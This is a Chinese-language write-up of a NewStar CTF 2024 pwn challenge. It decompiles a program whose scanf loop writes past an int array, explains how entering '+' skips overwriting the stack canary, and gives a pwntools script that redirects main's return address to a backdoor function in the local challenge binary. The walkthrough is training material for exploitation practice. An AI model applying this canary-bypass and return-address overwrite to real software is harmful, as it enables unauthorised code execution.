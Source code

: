 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 不思議なscanf

```c
int __fastcall main(int argc, const char **argv, const char**envp)
{
  int v3; // eax
  int i; // [rsp+Ch] [rbp-24h]
  _DWORD v6[6]; // [rsp+10h] [rbp-20h] BYREF
  unsigned__int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  initial(argc, argv, envp);
  puts(aGgggggggggeeee);
  for ( i = 0; i <= 15; ++i )
  {
    printf(format);
    v3 = i;
    __isoc99_scanf(&unk_4047FA, &v6[v3]);
  }
  puts("銉愩偆銉愩偆");
  return 0;
}
```

程序定义了一个 int 类型的数组，并利用 for 循环用 scanf 向数组读入内容

但是 for 循环的次数是 16 次，已经超出了数组定义的范围，造成了数组越界

所以我们最终的目的就是利用这个数组越界修改 `main` 函数的返回地址

![查看保护](/assets/images/wp/2024/week3/scanf_1.png)

![查看汇编](/assets/images/wp/2024/week3/scanf_2.png)

:::tip
`scanf` 时使用的参数 `%d`

正常输入时，输入为范围在 $[-2^{31}, 2^{32}-1]$ 内的整数。

如果输入范围在 $[-2^{63}, 2^{63}-1]$ 内的整数，则会截断高位读取，此范围是 `long long int` 的范围。

如果输入范围在 `long long int` 范围之外，则统一将参数赋值为 $-1$（0xFFFFFFFF）

如果输入为非数字，分为下列情况：

1. 如果输入仅有一个，则该输入无效，该值不变；
2. 如果输入有数字前缀<span data-desc>（如 `12345abcd`）</span>，则 `scanf` 仅会读取前面的数字，从第一个非数字开始，后面全部舍弃<span data-desc>（`12345`）</span>；
3. 如果输入有多个且使用一个 `scanf` 语句<span data-desc>（如 `scanf("%d, %d", &a, &b)`）</span>，输入第一个非数字后，后面的所有输入均为无效，前面的输入可以赋值；
4. 如果输入有多个且使用多个 `scanf` 语句<span data-desc>（含循环，即一个 `scanf` 中仅有一个输入）</span>，则输入非数字时，如果输入的不是 `+` 或 `-`，则后面紧跟的所有 `scanf` 均自动跳过，变为无效，不能输入。如果输入的 `+` 或 `-`，则会跳过当前输入，后面仍然可以进行输入。

摘抄自：[以 Pwn 视角看待 C 函数 —— scanf](https://blog.csdn.net/qq_54218833/article/details/121308367)
:::

这里我们需要利用 `scanf` 多次输入的特性，通过输入字符 `+` 来跳过对 Canary 的修改，进而直接修改返回地址为后门地址。

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')

s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

p = process('./pwn')
elf = ELF('./pwn')

for _ in range(10):
    ru('わたし、気になります！')
    sl(b'+')

ru('わたし、気になります！')
sl(str(0x401240))
ru('わたし、気になります！')
sl(str(0))

for _ in range(4):
    ru('わたし、気になります！')
    sl(b'+')

p.interactive()
```
